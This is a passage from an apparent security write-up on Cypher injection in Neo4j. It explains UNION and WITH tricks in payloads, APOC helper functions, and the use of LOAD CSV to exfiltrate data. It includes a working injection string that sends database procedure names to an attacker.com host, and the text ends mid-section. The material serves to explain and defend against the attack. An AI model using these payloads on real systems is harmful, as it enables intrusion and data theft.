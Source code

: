 Note the UNION statement:

1. The reason UNION is required is that if the MATCH statement doesn't return anything, the rest of the query won't run. So, all the nefarious things we might do there will simply not execute.
2. We add “RETURN 1” before the UNION so both parts return the same columns, which is required for the query to execute.

So, what's with the “WITH” statement?

Using WITH, we can drop all existing variables. This is important when we don't know what the query is (more on that later). If our payload accidentally tries to set a variable that already exists, the query will fail to run.

Naturally, if we know the query and the database, none of these techniques are required. We can even manipulate the returned data to in turn manipulate the process instead of just abusing the server.

## Post exploitation

### HTTP LOAD CSV

Also mentioned in other articles, but which bears repeating, LOAD CSV is a built-in statement that can be used to exfiltrate data. LOAD CSV tries to load a csv either from the filesystem or from the web. Filesystem access is usually restricted unless the restrictions were explicitly lifted in the configuration file (which is unlikely to be the case).

But an attacker can use the web functionality to exfiltrate data. If the vulnerable query is:

```sql
MATCH (o) WHEREo.Id='{input}' RETURN o  
```

then the attacker can inject the following string:

```plaintext
' OR 1=1 WITH 1 as _l00 CALL dbms.procedures() yield name LOAD CSV FROM 'https://attacker.com/' + name as _l RETURN 1 // 
```

This will send all the installed procedures in the database to the attacker's server.

## APOC

The first thing an attacker should check is whether APOC is installed. APOC (awesome procedures on Cypher) is an extremely popular, officially supported plugin for Neo4j that greatly enhances its capabilities. APOC adds many additional functions and procedures that developers can use in their environment, but therein lies the problem: more power for the developer means more power for the attacker. Attackers can use the various procedures and functions APOC offers to carry out more advanced attacks.

APOC offers functions that can prove useful for injections. These functions can serialize and encode data, making it much easier to exfiltrate sensitive content.

- apoc.convert.toJson — converts nodes, maps, and more to JSON
- apoc.text.base64Encode — gets a string and encodes it as base64

Much more interesting are the procedures that APOC offers. They are a game-changer for attackers. HTTP:
